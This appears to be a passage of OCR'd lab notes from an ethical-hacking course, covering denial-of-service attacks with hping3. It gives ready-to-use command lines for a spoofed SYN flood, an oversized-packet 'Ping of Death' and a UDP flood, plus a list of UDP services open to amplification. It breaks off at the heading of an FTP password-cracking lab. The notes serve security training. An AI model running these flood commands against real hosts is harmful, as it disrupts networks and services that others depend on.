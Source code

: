 **Lab1-Task2: Perform a DoS Attack on a Target Host using hping3**

- **Target:**

  - Wireshark-&gt;Ethernet

- **Attacker**

  - **hping3 -S \[Target IP\] -a \[Spoofable IP\] -p 22 -flood**

    - **-S: Set the SYN flag**

    - **-a: Spoof the IP address**

    - **-p: Specify the destination port**

    - **--flood: Send a huge number of packets**

- **Target**

  - Check wireshark

- **Attacker (Perform PoD)**

  - **hping3 -d 65538 -S -p 21 --flood \[Target IP\]**

    - **-d: Specify data size**

    - **-S: Set the SYN flag**

- **Attacker (Perform UDP application layer flood attack)**

  - nmap -p 139 10.10.10.19 (check service)

  - **hping3 -2 -p 139 --flood \[IP\]**

    - **-2: Specify UDP mode**

- **Other UDP-based applications and their ports**

  - CharGen UDP Port 19

  - SNMPv2 UDP Port 161

  - QOTD UDP Port 17

  - RPC UDP Port 135

  - SSDP UDP Port 1900

  - CLDAP UDP Port 389

  - TFTP UDP Port 69

  - NetBIOS UDP Port 137,138,139

  - NTP UDP Port 123

  - Quake Network Protocol UDP Port 26000

  - VoIP UDP Port 5060

**Module 13: Hacking Web Servers**

**Lab2-Task1: Crack FTP Credentials using a Dictionary Attack**
